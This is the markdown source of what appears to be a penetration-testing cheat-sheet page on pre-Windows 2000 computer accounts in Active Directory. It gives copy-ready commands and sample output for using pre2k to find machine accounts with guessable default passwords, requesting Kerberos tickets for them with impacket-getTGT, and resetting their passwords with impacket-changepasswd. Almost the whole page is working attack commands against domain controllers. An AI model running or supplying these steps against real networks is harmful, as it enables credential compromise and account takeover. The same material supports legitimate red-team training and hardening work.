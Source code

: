 ```yaml
---
title: "Pre-Windows 2000 Computer"
date: 2025-7-10
tags: ["Domain Controller", "Pre-Windows 2000 Computer", "Active Directory", "Windows", "pre2k", "Pre-Created Computer"]
---
```


### Enum

{{< tab set1 tab1 >}}pre2k{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Installation

```console
python3 -m venv venv
```

```console
source venv/bin/activate
```

```console
git clone https://github.com/garrettfoster13/pre2k.git
```

```console
cd pre2k/
```

```console
pip3 install .
```

#### Query

```console
# Unauth
pre2k unauth -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose -inputfile '<MACHINES_FILE>'
```

```console {class="sample-code"}
$ cat machines.txt 
banking$

$ pre2k unauth -d example.com -dc-ip 192.168.1.10 -verbose -inputfile 'machines.txt'

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:53:03] INFO     Testing started at 2025-07-10 23:53:03
[23:53:03] INFO     Using 10 threads
[23:53:03] INFO     VALID CREDENTIALS: example.com\banking$:banking
```

```console
# Auth
pre2k auth -u '<USER>' -p '<PASSWORD>' -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose
```

```console {class="sample-code"}
$ pre2k auth -u trainee -p trainee -d example.com -dc-ip 192.168.1.10 -verbose                             

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:54:06] INFO     Retrieved 2 results total.
[23:54:06] INFO     Testing started at 2025-07-10 23:54:06
[23:54:06] INFO     Using 10 threads
[23:54:07] INFO     VALID CREDENTIALS: example.com\BANKING$:banking
[23:54:07] DEBUG    Invalid credentials: example.com\DC$:dc
```

<small>*Ref: [pre2k](https://github.com/garrettfoster13/pre2k)*</small>

{{< /tabcontent >}}

### Abuse #1: Connect via Kerberos

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Request a Ticket

```console
sudo ntpdate -s <DC_IP> && impacket-getTGT '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.example.com && impacket-getTGT 'example.com/Banking$:banking' -dc-ip dc.example.com     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Banking$.ccache
```

```console
export KRB5CCNAME='<USER>.ccache'
```

{{< /tabcontent >}}

### Abuse #2: Change Target Password

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-changepasswd -newpass <NEW_PASSWORD> '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' -protocol rpc-samr
```

```console {class="sample-code"}
$ impacket-changepasswd -newpass banking 'example.com/BANKING$:banking@dc.example.com' -protocol rpc-samr 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of example.com\BANKING$
[*] Connecting to DCE/RPC as example.com\BANKING$
[*] Password was changed successfully.
```

{{< /tabcontent >}}